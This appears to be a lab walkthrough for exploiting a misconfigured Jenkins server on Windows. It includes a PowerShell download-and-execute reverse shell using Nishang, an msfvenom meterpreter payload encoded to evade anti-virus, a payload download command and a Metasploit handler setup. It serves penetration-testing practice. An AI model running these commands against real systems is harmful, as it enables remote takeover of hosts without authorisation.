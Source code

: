 We'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous 
development pipelines that allow developers to automatically deploy their code once they made change to it). After which, we'll use an interesting privilege escalation 
method to get full system access. 

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of 
scripts for initial access, enumeration and privilege escalation. In this case, we'll be using 
the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)


Find a feature of the tool(Jenkins) that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the 
reverse shell on your machine and then run it: 
```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```
E.g. in our case it is:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.117.113:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.117.113 -Port 4444
```
![image](https://github.com/vivekprm/hackers-manual/assets/2403660/394a4a8f-7da9-4be6-bc02-5b35539d92d0)

You first need to download the [Powershell script](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1), and make it available 
for the server to download. You can do this by creating a http server with python: 
```sh
python3 -m http.server
```

# Switching Shells
To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create the a windows meterpreter reverse shell using the following payload
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.117.113 LPORT=5555 -f exe -o shell.exe
```

This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

After creating this payload, download it to the machine using the same method in the previous step:
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.117.113:8000/shell.exe','shell.exe')"
```

Before running this program, ensure the handler is set up in metasploit:
```
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run
```

This step uses the metasploit handler to receive the incoming connection from you reverse shell. Once this is running, enter this command to start the reverse shell
```
Start-Process "shell.exe"
```

This should spawn a meterpreter shell for you!
